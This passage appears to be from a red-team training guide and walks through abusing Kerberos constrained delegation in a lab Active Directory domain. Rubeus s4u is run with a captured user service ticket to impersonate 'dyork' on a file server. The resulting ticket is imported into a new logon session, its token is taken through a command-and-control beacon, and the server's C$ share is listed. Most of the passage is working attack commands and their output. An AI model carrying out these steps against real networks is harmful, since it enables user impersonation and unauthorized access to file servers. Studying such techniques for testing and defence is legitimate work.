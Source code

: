 ```batch
```

The procedure for this is to use the `/tgs` parameter in Rubeus, rather than `/impersonateuser`.

{% code overflow="wrap" %}
```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:cifs/lon-fs-1 /ticket:doIFn[...snip...]5DT00= /tgs:doIFp[...snip...]dzLTE= /nowrap
```
{% endcode %}

Where:

* `/user` is the principal (e.g. computer) configured for the delegation.
* `/msdsspn` is the service that the principal is allowed to delegate to.
* `/ticket` is the TGT for the principal.
* `/tgs` is a captured front-end service ticket for a user.

```batch
[*] Action: S4U

[*] Loaded a TGS for CONTOSO.COM\dyork
[*] Impersonating user 'dyork' to target SPN 'cifs/lon-fs-1'
[*] Building S4U2proxy request for service: 'cifs/lon-fs-1'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/lon-fs-1':

      doIGL[...snip...]mcy0x
```

This ticket can be used to access the CIFS service on _lon-fs-1_ as _dyork_.

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:doIGL[...snip...]mcy0x

[*] Using CONTOSO.COM\dyork:FakePass

[*] Showing process : False
[*] Username        : dyork
[*] Domain          : CONTOSO.COM
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2080
[+] Ticket successfully imported!
[+] LUID            : 0xa1c99b

beacon> steal_token 2080
beacon> ls \\lon-fs-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/23/2025 15:44:52   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     02/20/2025 10:37:21   Files
          dir     05/08/2021 08:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     01/24/2025 14:21:18   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/24/2025 14:18:02   System Volume Information
          dir     01/24/2025 14:17:49   Users
          dir     01/24/2025 13:34:02   Windows
```